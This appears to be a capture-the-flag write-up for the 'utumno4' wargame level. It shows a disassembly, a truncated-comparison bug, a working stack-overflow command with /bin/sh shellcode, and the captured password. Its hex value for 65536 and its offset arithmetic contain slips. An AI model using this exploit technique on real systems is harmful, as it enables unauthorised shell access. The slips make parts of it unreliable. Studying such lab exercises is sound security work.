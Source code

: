 Dump of assembler code for function main:
```assembly
   0x0804844b <+0>:	push   ebp
   0x0804844c <+1>:	mov    ebp,esp
   0x0804844e <+3>:	sub    esp,0xff04
   0x08048454 <+9>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048457 <+12>:	add    eax,0x4
   0x0804845a <+15>:	mov    eax,DWORD PTR [eax]
   0x0804845c <+17>:	push   eax
   0x0804845d <+18>:	call   0x8048330 <atoi@plt>
   0x08048462 <+23>:	add    esp,0x4
   0x08048465 <+26>:	mov    DWORD PTR [ebp-0x4],eax
   0x08048468 <+29>:	mov    eax,DWORD PTR [ebp-0x4]
   0x0804846b <+32>:	mov    WORD PTR [ebp-0x6],ax
   0x0804846f <+36>:	cmp    WORD PTR [ebp-0x6],0x3f		#we compare only the lower half of memory
   0x08048474 <+41>:	jbe    0x804847d <main+50>		#unsigned compare, cant use int overflow here
   0x08048476 <+43>:	push   0x1
   0x08048478 <+45>:	call   0x8048310 <exit@plt>
   0x0804847d <+50>:	mov    edx,DWORD PTR [ebp-0x4]
   0x08048480 <+53>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048483 <+56>:	add    eax,0x8
   0x08048486 <+59>:	mov    eax,DWORD PTR [eax]
   0x08048488 <+61>:	push   edx
   0x08048489 <+62>:	push   eax
   0x0804848a <+63>:	lea    eax,[ebp-0xff02]
   0x08048490 <+69>:	push   eax
   0x08048491 <+70>:	call   0x8048300 <memcpy@plt>
   0x08048496 <+75>:	add    esp,0xc
   0x08048499 <+78>:	mov    eax,0x0
   0x0804849e <+83>:	leave  
   0x0804849f <+84>:	ret
```
note:
0x0804846f <+36>:	cmp    WORD PTR [ebp-0x6],0x3f
we compare only the lower half of memory!
this can be used, for instance, if we put eax = 0xffffffff --> we compare 0xffff to 0x3f
but we can exploit this: use eax = 0xffff0000 --> we compare 0x0000 to 0x3f
(this mistake is done because comparing unsigned short int and unsigned int, so casting is performed by cutting the int in the middle)

lets use eax = 0x0001000 = 65536

stack overflow!
return address: 0xfffed998

21+50 = 71 --> 65286 - 121 = 65215

/utumno/utumno4 65536 $(python -c 'print "\x90"*65215+"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"+"\x90"*50+"\x98\xd9\xfe\xff"+"\x90"*50')

we get:
woucaejiek


